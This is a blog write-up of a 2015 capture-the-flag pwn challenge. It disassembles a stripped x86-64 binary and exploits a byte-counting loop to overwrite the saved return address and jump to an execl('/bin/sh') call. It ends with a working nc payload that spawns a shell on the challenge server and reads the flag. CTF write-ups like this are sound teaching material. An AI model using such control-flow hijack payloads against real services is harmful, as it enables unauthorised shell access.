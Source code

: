 ```yaml
---
layout: post
title:  "TUM CTF 2015 Teaser - c0unter (pwn 25)"
date:   2015-10-30 20:00
categories: ctf exploit
---
```


I had the possiblity to play a few hours on [TUM CTF Teaser][tum]. It was
nicely organized and the challenges were fun to solve - even for the easy ones.
Here is the first write-up I am going to publish for that CTF.

#Basic information

From the organizers:
{% highlight text %}
Pwn / c0unter
Baby's 1st
ctf.link/assets/downloads/pwn/counter
nc 1.ctf.link 1031
25 Points
{% endhighlight %}

We are facing an ELF 64-bit binary, stripped and with only NX enabled:
{% highlight shell-session %}
$ file counter
counter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=b065123973be4586a6b10f277cda428776bde80b, stripped

$ checksec --file counter
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX enabled    No PIE
RPATH      RUNPATH      FILE
No RPATH   No RUNPATH   counter
{% endhighlight %}

By looking at the relocation table, we can see that the binary must have
somewhere a call to `execl` and another to `fscanf`:
{% highlight shell-session %}
$ objdump -R counter

counter:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600c68 R_X86_64_GLOB_DAT  __gmon_start__
0000000000600d00 R_X86_64_COPY     stdin
0000000000600c88 R_X86_64_JUMP_SLOT  free
0000000000600c90 R_X86_64_JUMP_SLOT  __isoc99_fscanf     <=
0000000000600c98 R_X86_64_JUMP_SLOT  puts
0000000000600ca0 R_X86_64_JUMP_SLOT  __libc_start_main
0000000000600ca8 R_X86_64_JUMP_SLOT  __gmon_start__
0000000000600cb0 R_X86_64_JUMP_SLOT  malloc
0000000000600cb8 R_X86_64_JUMP_SLOT  exit
0000000000600cc0 R_X86_64_JUMP_SLOT  execl               <=
{% endhighlight %}

#Disassembling

When interacting with the service, no welcome message or instruction is
provided, it only seems to echo our input. The call to fscanf is made at `0x40074f`:
{% highlight shell-session %}
$ objdump -M intel -d counter
[snip]
40074f: e8 0c fe ff ff        call   400560 <__isoc99_fscanf@plt>
[snip]
{% endhighlight %}

In GDB with [peda][peda], we can see the arguments given to `fscanf`:
{% highlight shell-session %}
gdb-peda$ b *0x40074f
Breakpoint 1 at 0x40074f
gdb-peda$ r
[snip]
Guessed arguments:
arg[0]: 0x7ffff7dd5900 --> 0xfbad2088 
arg[1]: 0x4008dc --> 0x7331313525 ('%511s')
arg[2]: 0x600d40 --> 0x0 
arg[3]: 0x0 
[snip]
{% endhighlight %}

The first argument is the address of `stdin` in the glibc, the second argument
is the format used to interpret our input and the third argument is the address
of the destination buffer where our input is stored.

Between `0x400794` and `0x4007ae` we can see that the code loops over the buffer, count the occurence of each character of our input and save that information on the stack:

{% highlight shell-session %}
0x400794: mov    eax,0x600d40             ; address of the buffer
0x400799: lea    rcx,[rbp+rax*1+0x0]      ; number of bytes read by fscanf
0x40079e: xchg   ax,ax
0x4007a0: movzx  edx,BYTE PTR [rax]       ; get the value of the current byte
0x4007a3: add    rax,0x1                  ; offset of the next char
0x4007a7: add    BYTE PTR [rsp+rdx*1],0x1 ; increment the counter of this byte
                                          ; by 1
0x4007ab: cmp    rax,rcx
0x4007ae: jne    0x4007a0
{% endhighlight %}

This can be interpreted as the following C code:
{% highlight c %}
for (i = 0; i < input_length; ++i) {
  *(rsp + (byte)input[i]) += 1;
}
{% endhighlight %}

As a byte can contain a value between 0x00 and 0xff, we can manipulate the
stack from its top to 256 bytes further. If the saved `rip` value is contained
within that range, we can hijack the flow of the program.

Here is an example where I've fed the binary with the string `AAAABBBBCCCCDDDD`. To do that I usually create a `fifo`:
{% highlight shell-session %}
$ mkfifo fifo
{% endhighlight %}

In gdb, I use it to feed the binary through its standard input:
{% highlight shell-session %}
gdb-peda$ r < fifo
{% endhighlight %}

And in another shell, I can use any commands to feed the fifo:
{% highlight shell-session %}
$ echo 'AAAABBBBCCCCDDDD' > fifo
$ echo -e -n '\xde\xad\xbe\xef' > fifo
$ python2 -c 'print "..."' > fifo
$ ./script > fifo
{% endhighlight %}

Here is the stack before executing the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

And here it is after the execution of the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000404040400	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

You can see that the bytes between addresses `0x7fffffffdc41` and
`0x7fffffffdc44` have been incremented by 4. These addresses match to the
address of `rsp`, `0x7fffffffdc00`, plus the value in bytes of `A`, `B`, `C`
and `D`: `0x41`, `0x42`, `0x43` and `0x44` respectively. You may find more
information about ASCII characters value in hexadecimal [here][ascii].

#Exploitation

Here is the information about the current stack frame, when the vulnerable code is executed:
{% highlight shell-session %}
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffdca0:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffdcb0
 Arglist at 0x7fffffffdbf8, args: 
 Locals at 0x7fffffffdbf8, Previous frame's sp is 0x7fffffffdca0
 Saved registers:
  rbx at 0x7fffffffdc88, rbp at 0x7fffffffdc90, rip at 0x7fffffffdc98
{% endhighlight %}

The distance from the top of the stack (`rsp`) and the location of the saved `rip` is 152 bytes:
{% highlight shell-session %}
gdb-peda$ distance $rsp 0x7fffffffdc98
From 0x7fffffffdc00 to 0x7fffffffdc98: 152 bytes, 38 dwords
gdb-peda$
{% endhighlight %}

If we send to the binary bytes having values between 152 (`0x98`) and 160 (`0xa0`),
we can change the value of the saved `rip` and control the flow of the program
when the current function return.

As mentionned earlier, there is at least a call to `execl` somewhere is the code:
{% highlight shell-session %}
$ objdump -M intel -d counter | grep -B 5 execl
[snip]
4006e0:	bf d4 08 40 00       	mov    edi,0x4008d4
4006e5:	48 83 ec 08          	sub    rsp,0x8
4006e9:	31 d2                	xor    edx,edx
4006eb:	be d9 08 40 00       	mov    esi,0x4008d9
4006f0:	31 c0                	xor    eax,eax
4006f2:	e8 c9 fe ff ff       	call   4005c0 <execl@plt>
[snip]
{% endhighlight %}

This shows to complete call to `execl`:

* the first argument is a string located at `0x4008d4`
* the second argument is a string located at `0x4008d9`
* and the third argument is `0` (`xor    edx,edx`), which is used to indicate
  the end of the arguments list. Here are the strings:
{% highlight shell-session %}
gdb-peda$ x/s 0x4008d4
0x4008d4:	"/bin/sh"
gdb-peda$ x/s 0x4008d9
0x4008d9:	"sh"
{% endhighlight %}

This gives us the following call: `execl("/bin/sh", "sh");`

Let's replace the saved `rip` with `0x4006e0` so that we can spawn a shell when
the function returns.  Saved `rip` minus the address of the call to execl will
give us the number of characters we have to use:

`0x4006e0 - 0x4005d9 = 0x0107` or `0xe0 - 0xd9 = 0x07` and `0x06 - 0x05 = 0x01`

This means that the lowest byte of saved `rip` must be incremented 7 times and
the next one, once:
{% highlight shell-session %}
$ (python2 -c 'print 7 * "\x98" + "\x99" + "\0\0\0\0"'; cat) \
  | nc -v 1.ctf.link 1031
Connection to 1.ctf.link 1031 port [tcp/*] succeeded!
id
uid=1000(counter) gid=1000(counter) groups=1000(counter)
ls -la
total 32
drwxr-xr-x 2 root root 4096 Oct 24 21:00 .
drwxr-xr-x 6 root root 4096 Oct 24 21:00 ..
-rwxr-xr-x 1 root root 5384 Oct 24 00:38 counter
-rw-r--r-- 1 root root   32 Oct 24 12:59 flag.txt
-rwxr-xr-x 1 root root 9384 Oct 24 15:51 ynetd
cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
{% endhighlight %}

Pwned for the glory of the almighty technoviking!
![technoviking](https://www.zazzle.com/rlv/techno_viking_by_redrevolt_make_me_proud_poster-r40c1f27408414a17b6c3c70d65458264_w1t_8byvr_512.jpg)

[tum]: https://ctftime.org/event/238
[peda]: https://github.com/longld/peda
[ascii]: http://www.asciitable.com/
